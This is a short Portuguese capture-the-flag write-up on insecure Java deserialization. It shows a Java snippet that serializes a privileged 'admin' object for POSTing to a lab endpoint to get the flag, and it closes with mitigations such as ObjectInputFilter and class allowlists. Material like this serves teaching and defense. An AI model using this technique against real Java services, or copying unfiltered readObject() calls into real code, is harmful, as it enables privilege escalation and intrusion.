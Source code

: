 # Write-up — M07 Desserialização Insegura em Java

## Visão Geral do Vetor
A classe `DeserializeHandler` cria um `ObjectInputStream` sobre qualquer payload enviado e chama `readObject()` sem `ObjectInputFilter`. Como a aplicação inclui a classe `TrustedEnvelope`, basta enviar um objeto legítimo serializado com `action=admin` para obter a flag, mas o cenário também permite explorar cadeias de gadgets caso existam no classpath.

## Passo a Passo
1. Escreva um pequeno programa Java:
   ```java
   TrustedEnvelope env = new TrustedEnvelope("admin", "audit");
   ByteArrayOutputStream baos = new ByteArrayOutputStream();
   ObjectOutputStream oos = new ObjectOutputStream(baos);
   oos.writeObject(env);
   String base64 = Base64.getEncoder().encodeToString(baos.toByteArray());
   ```
2. Envie o valor Base64 para `/api/jobs` no campo `payload`.
3. A resposta virá com o corpo contendo a flag.

## Evidências
- Resposta HTTP 200 retornando `VIVO2025{...}` imediatamente após o POST.
- Logs da aplicação indicando desserialização da classe `com.vivo.ctf.TrustedEnvelope`.

## Mitigações Recomendadas
- Aplicar `ObjectInputFilter` restritivo ou migrar para formatos seguros (JSON, protobuf).
- Verificar assinaturas ou mac dos objetos antes de desserializar.
- Manter lista de classes permitidas explicitamente.
